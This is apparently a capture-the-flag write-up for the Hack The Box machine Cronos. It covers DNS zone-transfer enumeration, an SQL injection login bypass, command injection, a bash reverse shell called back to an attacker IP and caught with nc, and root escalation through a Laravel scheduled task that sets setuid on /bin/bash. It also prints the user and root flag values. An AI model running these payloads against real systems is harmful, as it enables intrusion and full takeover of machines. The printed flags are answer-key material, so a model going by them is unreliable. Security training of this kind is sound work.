




# Cronos - 10.10.10.13

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.13
```

```bash
# Nmap 7.91 scan initiated Thu Apr 29 13:00:15 2021 as: nmap -sC -sV -T4 -oA nmap/initial 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up (0.24s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 29 13:00:45 2021 -- 1 IP address (1 host up) scanned in 30.63 seconds
```

## Website

Going to the http://10.10.10.13, it is a default apache webpage.


## DNS Enumeration

Since port 53 is open and dns is setup, the machine could have some virtual host routing setup.

```bash
$ nslookup
# the server is setup, this will define where the queries are sent
> server 10.10.10.13 
Default server: 10.10.10.13
Address: 10.10.10.13#53
# the server is told to query itself on localhost
> 127.0.0.1
1.0.0.127.in-addr.arpa  name = localhost.
# the server is told to query the public ip address
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

A dns entry is revealed with a subdomain.

```bash
$ dig axfr cronos.htb @10.10.10.13 

; <<>> DiG 9.16.13-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 788 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Thu Apr 29 13:53:24 EDT 2021
;; XFR size: 7 records (messages 1, bytes 203)
```

Several domains are revealed when looking for dns zone transfers

- [cronos.htb]()
- [www.cronos.htb]()
- [admin.cronos.htb]()
- [ns1.cronos.htb]()

The above domains are added to the **/etc/hosts** file.

**ns1.cronos.htb**



**www.cronos.htb**, **cronos.htb**


admin.cronos.htb


After trying basic SQl injection `admin' or 1=1 -- -` in the login page, the attacker can bypass the login.


The attacker can execute code when trying command injection payload `;ls` in the input field.


# Exploitation

### Getting a reverse shell

Intercepting the post request on burp, commands can be easily executed on the server. 


The tools used here to generate quick  reverse shell is called [rsg or reverse shell generator](https://github.com/mthbernardes/rsg)

```bash
# generates payload and as well as listens on the specified port
rsg 10.10.14.23 8888 bash
```

The attacker then uploads the shell.php and sets up **nc** to listen for an incoming connection on port **8888**.

The command is first url encoded before sending it to the server.




The reverse shell is then stabilised using the following commands.

```bash
which python3 # to know which python version exists
python3 -c 'import pty;pty.spawn("/bin/bash")' # gets a proper tty shell
# the shell is then backgrounded using ctrl+z
stty raw -echo # this is executed on the attackers machine
# then press fg to resume the tty shell
export TERM=xterm # after setting the terminal type, the screen can now be cleared
stty rows 42 cols 172 # sets the size for the tty shell
```

# Post Exploitation

## Privilege Escalation to Root

After running LinEnum.sh from [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum), it is known that a cronjob is running on the server.


### **Vulnerability Explanation:**

Since the cronjob is ran as root, if the attacker can control a schedule task, it will be ran with root privileges. Upon researching, the file **/var/www/laravel/app/Console/Kernel.php** needs to edited to add a task.

```bash
find / -name "Kernel.php" -ls 2>/dev/null
```

The file is owned by the user **www-data** and the current shell is as that specific user. Hence the attacker can modify the file as needed.



source: [https://tutsforweb.com/how-to-set-up-task-scheduling-cron-job-in-laravel/](https://tutsforweb.com/how-to-set-up-task-scheduling-cron-job-in-laravel/)


source: [https://vegibit.com/scheduling-commands-and-tasks-in-laravel/](https://vegibit.com/scheduling-commands-and-tasks-in-laravel/)


```php
    protected function schedule(Schedule $schedule)
    {
        // $schedule->command('inspire')
        //          ->hourly();
        $schedule->exec('chmod u+s /bin/bash')->everyMinute();
    }
```

After the setuid of **/bin/bash** when executing `bash -p`, the attacker can have the shell of the current user have an effective user ID or euid of root.



### User.txt

```bash
find /home -type f -ls 2>/dev/null | grep user
```

**User.txt** can be found in the home directory of **noulis**.

```bash
cat /home/noulis/user.txt
```


> user.txt flag: `51d236438b333970dbba7dc3089be33b`

### Root.txt

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```


> root.txt flag: `1703b8a3c9a8dde879942c79d02fd3a0`

